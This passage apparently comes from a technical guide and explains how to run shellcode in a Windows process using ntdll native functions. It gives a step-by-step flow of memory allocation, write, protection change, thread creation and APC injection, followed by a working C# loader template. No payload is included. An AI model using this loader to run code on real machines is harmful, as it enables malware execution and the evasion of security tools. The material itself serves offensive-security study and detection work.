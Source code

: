 7. **`NtClose`**
   - Equivalent to: `CloseHandle`
   - Closes a handle to a process, thread, or other kernel object to clean up.
   
   ```csharp
   [DllImport("ntdll.dll", SetLastError = true)]
   public static extern uint NtClose(IntPtr Handle);
   ```

### Example Flow Using Direct System Calls

Here’s an example of how these syscalls could be used in place of the usual API functions:

1. **Allocate Memory**:
   Use `NtAllocateVirtualMemory` to allocate a region of memory for the shellcode.
   
2. **Write Shellcode**:
   Use `NtWriteVirtualMemory` to copy the shellcode into the allocated memory.
   
3. **Change Memory Protection**:
   Use `NtProtectVirtualMemory` to change the memory protection to `PAGE_EXECUTE_READWRITE` so that the shellcode can be executed.
   
4. **Create a Thread**:
   Use `NtCreateThreadEx` to start a new thread that points to the allocated memory region where the shellcode resides.
   
5. **Queue APC (Optional)**:
   Use `NtQueueApcThread` to inject shellcode into an existing thread via an APC.

### Example Code in C# Using Direct Syscalls

```csharp
IntPtr processHandle = (IntPtr)(-1); // Handle to the current process (-1 is pseudo-handle)
IntPtr baseAddress = IntPtr.Zero;
ulong regionSize = (ulong)shellcode.Length;
uint allocationType = 0x3000; // MEM_COMMIT | MEM_RESERVE
uint protect = 0x40;          // PAGE_EXECUTE_READWRITE

// Allocate memory
NtAllocateVirtualMemory(processHandle, ref baseAddress, IntPtr.Zero, ref regionSize, allocationType, protect);

// Write shellcode to allocated memory
uint bytesWritten;
NtWriteVirtualMemory(processHandle, baseAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

// Optionally, protect memory to PAGE_EXECUTE_READ
uint oldProtect = 0;
NtProtectVirtualMemory(processHandle, ref baseAddress, ref regionSize, 0x20, ref oldProtect); // PAGE_EXECUTE_READ

// Create a new thread to execute shellcode
IntPtr hThread;
NtCreateThreadEx(out hThread, 0x1FFFFF, IntPtr.Zero, processHandle, baseAddress, IntPtr.Zero, false, 0, 0, 0, IntPtr.Zero);

// Wait for the thread to complete
WaitForSingleObject(hThread, 0xFFFFFFFF);
NtClose(hThread);
```
